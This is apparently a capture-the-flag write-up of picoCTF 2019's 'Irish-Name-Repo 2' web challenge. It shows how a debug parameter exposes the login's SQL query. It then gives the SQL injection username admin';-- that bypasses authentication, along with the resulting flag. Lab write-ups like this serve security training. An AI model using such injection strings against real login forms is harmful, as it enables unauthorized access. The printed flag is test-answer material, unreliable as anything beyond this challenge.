 ```yaml
---
layout: writeup
title: Irish-Name-Repo 2
year: 2019
---
```

# Irish-Name-Repo 2
Category: Web Exploitation

## Description

> There is a website running at [https://jupiter.challenges.picoctf.org/problem/64649/](https://jupiter.challenges.picoctf.org/problem/64649/) or [http://jupiter.challenges.picoctf.org:64649](http://jupiter.challenges.picoctf.org:64649). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! 

## Solution

This is the follow-up to [part nr 1](#Irish-Name-Repo 1). Again, we'll focus on the *Admin login*. Setting `debug=1` in Burp reveals the following response
```
username: user
password: pass
SQL query: SELECT * FROM users WHERE name='user' AND password='pass'
```

To solve this, we simply type `admin';--` as login and leave the password empty. We get our flag
```
Logged in!
Your flag is: picoCTF{m0R3_SQL_plz_aee925db}
```